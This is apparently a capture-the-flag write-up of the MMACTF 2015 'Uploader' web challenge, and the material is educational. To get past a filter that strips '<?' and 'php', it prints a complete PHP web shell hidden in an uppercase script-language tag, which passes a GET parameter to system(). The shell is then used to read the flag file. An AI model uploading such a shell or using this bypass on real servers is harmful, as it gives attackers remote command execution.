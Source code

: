 # Uploader (Web, 100pts)

---

## Problem

This uploader deletes all /<\?|php/. So you cannot run php.

http://recocta.chal.mmactf.link:9080/
http://recocta.chal.mmactf.link:9081/ (Mirror 1)
http://recocta.chal.mmactf.link:9082/ (Mirror 2)
http://recocta.chal.mmactf.link:9083/ (Mirror 3)

You can only upload files whose name is matched by /^[a-zA-Z0-9]+\.[a-zA-Z0-9]+$/.

## Solution

Web page contains only one simple upload form:

![Uploader task](https://github.com/bl4de/ctf/blob/master/2015/MMACTF_2015/uploader1.png)

Each file is accesible after uploading, so we can try to upload some simple shell to find the flag, which should be placed somewhere on the server.

As we can't use regular PHP script tags, so we have to find another way to upload PHP shell and execute it.
We can use _script_ tag with language set to PHP (we are using uppercases here as lower cases are deleted):
	
```html
<!-- 
file: blade.php
https://github.com/bl4de/ctf/blob/master/MMACTF_2015/blade.php
-->

<form action="" method="get"><textarea name="c" rows="10" cols="80">
	<script language="PHP"> 
		if (isset($_GET['c'])) {echo $_GET['c'];}
	</script>
</textarea><button type="submit">go</button></form><hr /><div><p>Result of <strong>
	<script language="PHP"> 
		if(isset($_GET['c'])){echo $_GET['c'];}
	</script>
</strong></p><pre>

<script language="PHP"> 
	$output="";if (isset($_GET['c'])){$output=@system($_GET['c']);};
</script>
</pre>
</div>	
```

This won't work in the future versions of PHP, as from PHP 7 ASP tags and _script_ tags will be removed.


After uploading the shell, let's take a look around:

![ls -lA executed in /](https://github.com/bl4de/ctf/blob/master/2015/MMACTF_2015/uploader2.png)

We can see file named _flag_ in the root directory of the server.

We can execute _cat flag_ command via the shell and catch the flag:

![Flag](https://github.com/bl4de/ctf/blob/master/2015/MMACTF_2015/uploader3.png)


## Links

